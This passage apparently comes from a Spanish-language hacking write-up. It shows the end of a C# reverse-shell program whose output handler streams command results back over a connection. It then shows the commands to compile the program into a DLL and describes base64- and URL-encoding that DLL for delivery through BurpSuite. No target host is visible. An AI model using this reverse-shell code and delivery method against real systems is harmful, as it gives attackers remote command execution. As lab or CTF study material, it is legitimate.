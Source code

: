 ```C#
                        }                                                      
                }                                                              

                private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)                                                
        {                                                                      
            StringBuilder strOutput = new StringBuilder();                                                                                                    

            if (!String.IsNullOrEmpty(outLine.Data))                                                                                                          
            {                                                                  
                try                                                            
                {                                                              
                    strOutput.Append(outLine.Data);                                                                                                           
                    streamWriter.WriteLine(strOutput);                                                                                                        
                    streamWriter.Flush();                                      
                }                                                              
                catch (Exception err) { }                                      
            }                                                                  
        }                                                                      

        }                                                                      
}  
```

Compilando como librería.
```console
$ mcs -target:library -out:Rev.dll Rev.cs 
Test.cs(12,23): warning CS0219: The variable `reply' is assigned but its value is never used
Compilation succeeded - 1 warning(s)
```

Codificando el base64 y pegando el output al BurpSuite para hacer la solicitud.
**CTRL + U** Para URL encodear.
